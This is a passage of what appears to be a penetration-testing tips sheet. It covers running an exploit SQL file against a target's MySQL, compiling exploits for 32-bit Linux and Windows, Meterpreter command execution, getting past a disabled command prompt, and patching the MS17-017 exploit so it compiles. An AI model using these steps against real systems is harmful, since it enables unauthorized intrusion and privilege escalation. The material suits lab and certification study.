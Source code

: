 ```
mysql -u root -p<password> -h <target> < exploit.sql
```

### 10. Want to compile an exploit for 32 bits linux?

```
gcc -m32 -march=i686 code.c -o exp -static
```

And in case you get glibc version errors, two options:

- gcc and required libs are on the target: compile your exploit directly there
- no gcc, or missing lib: run `ldd --version` on the target and try to get a docker container with the same libc installed, compile from there and transfer to target

### 11. Want to cross compile an exploit for Windows?

```
# dpkg --add-architecture i386
# install mingw32/64
# 32 bits:
i686-w64-mingw32-g++-win32 exp.cpp -static -o exp
# 64 bits:
x86_64-w64-mingw32-g++ exp.cpp -static -o exp
```

There is equivalents for gcc too.

### 12. Want to run a command in Meterpreter and see the output?

```
execute -i -H -f "cmd"
```

### 13. Command Prompt Has Been Disabled by Your Administrator?

Upload this, and run cmd.exe locally: http://didierstevens.com/files/software/cmd-dll_v0_0_4.zip

### 14. Getting conversion error trying to compile [MS17-017](https://www.exploit-db.com/exploits/44479) ?

> error: cannot convert ‘STARTUPINFO_’ {aka ‘STARTUPINFOA_’} to ‘LPSTARTUPINFOW’ {aka ‘_STARTUPINFOW*’}

Edit line 450:

```
VOID xxCreateCmdLineProcess(VOID)
{
+    STARTUPINFOW si = { sizeof(si) };
-    STARTUPINFO si = { sizeof(si) };
    PROCESS_INFORMATION pi = { 0 };
    si.dwFlags = STARTF_USESHOWWINDOW;
    si.wShowWindow = SW_SHOW;
    WCHAR wzFilePath[MAX_PATH] = { L"yourexe.exe" };
    BOOL bReturn = CreateProcessW(NULL, wzFilePath, NULL, NULL, FALSE, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);
    if (bReturn) CloseHandle(pi.hThread), CloseHandle(pi.hProcess);
}
```
